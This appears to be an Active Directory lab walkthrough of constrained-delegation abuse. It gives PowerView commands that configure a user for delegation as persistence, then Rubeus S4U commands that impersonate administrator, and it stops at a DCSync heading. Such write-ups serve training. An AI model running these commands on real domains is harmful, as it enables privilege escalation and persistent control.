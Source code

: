 Using PowerView:

Set a Service Principal Name (SPN) for a User

```
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
```

- This assigns an **SPN** (`dev/svc`) to `devuser`.
- This is necessary for **Kerberos authentication**, making `devuser` eligible for delegation.

Configure `msDS-AllowedToDelegateTo`

```
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/us-dc.us.techcorp.local"}
```


- This **explicitly allows `devuser` to delegate authentication** to `ldap/us-dc.us.techcorp.local`.
- This means `devuser` can **impersonate** other users when accessing the LDAP service on the DC.


Set `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` (UAC Flag)

```
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}
```

- The `16777216` flag (`0x01000000`) sets the **"TrustedToAuthenticateForDelegation"** bit in `userAccountControl`.
- This allows **protocol transition**, meaning `devuser1` can authenticate users using Kerberos tickets from other authentication methods (e.g., NTLM).
- **Persistence Trick:** Attackers can exploit this by making `devuser1` a delegation account, then using `S4U2Self` and `S4U2Proxy` to escalate privileges.


Find Users with `TrustedToAuthForDelegation`

```
Get-DomainUser –TrustedToAuth
```

- Lists **all users that have "Trusted to Authenticate for Delegation"** enabled.
- Useful for **identifying potential abuse targets** in Active Directory

Abuse using Rubeus:

```
Rubeus.exe hash /password:Password@123! /user:devuser
/domain:us.techcorp.local
```

```
Rubeus.exe s4u /user:devuser /rc4:539259E25A0361EC4A227DD9894719F6
/impersonateuser:administrator /msdsspn:ldap/us-dc.us.techcorp.local
/domain:us.techcorp.local /ptt
```

Dump NTLM hashes for krbtgt Account(DCSync Attack)
